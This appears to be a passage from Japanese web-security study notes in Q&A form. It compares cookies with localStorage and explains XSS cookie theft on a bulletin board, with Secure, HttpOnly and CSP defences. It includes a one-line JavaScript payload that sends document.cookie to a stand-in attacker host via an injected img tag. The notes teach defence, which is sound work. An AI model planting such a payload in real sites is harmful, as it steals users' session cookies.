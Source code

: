 参考資料

- [RFC 6265, HTTP State Management Mechanism 8. セキュリティの考慮点（非公式日本語訳）](https://triple-underscore.github.io/http-cookie-ja.html#security-considerations)
- [IPA 安全なウェブサイトの作り方 - 1.4 セッション管理の不備](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_4.html)

### 質問11: クッキーとローカルストレージはどのように使い分ければいいでしょうか

![](https://miro.medium.com/max/875/1*O70Ml_4EqDa7i3uV0dlK1A.png)

> [Browser storage: Local Storage, Session Storage, Cookie, IndexedDB and WebSQL](https://medium.com/@lancelyao/browser-storage-local-storage-session-storage-cookie-indexeddb-and-websql-be6721ebe32a)


- Cookie
  - 有効期限を設定したい
  - サーバ側にデータを送信したい
  - HTML4に対応させたい
- localStorage
  - 半永久的にデータを保存したい
  - 大容量のデータを保存したい

参考資料

- [CookieとWebStorageとSessionについてのまとめ](https://qiita.com/pipiox/items/95554673ba3b078ac112)
- [JavaScript Cookies vs Local Storage vs Session](https://www.youtube.com/watch?v=GihQAC1I39Q)

### 質問12: Web掲示板サービス開発している際に、XSSにより他ユーザのクッキー情報が抜き出される仕組みとその対策はどのようなものでしょうか

- XSSの仕組み
  - 掲示板に投稿する内容にスクリプトを仕組む
  - その際に、自身のサイトにアクセスするように誘導する
  
    ```js
    document.write("<img src='http://evel.example.com/sample.png?" + document.cookie + "'>")
    ```

  - こうすることで被害者が上記のリンクを踏んだ際に、被害者のCookieの値を盗むことができる

- 防ぐ方法
  - 通信経路の盗聴に対する防護
    - クッキー属性に `Secure` を設定する
  - JavaScriptによるアクセスに対する防護
    - クッキー属性に `HttpOnly` を設定する

上記のようにクッキーに対してセキュリティに関する属性を追加する以外にも、`X-XSS-Protection` や `Content-Security-Policy` などのHTTPヘッダを設定するといった対策が存在している。

参考資料

- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_5.html)

## 参考資料
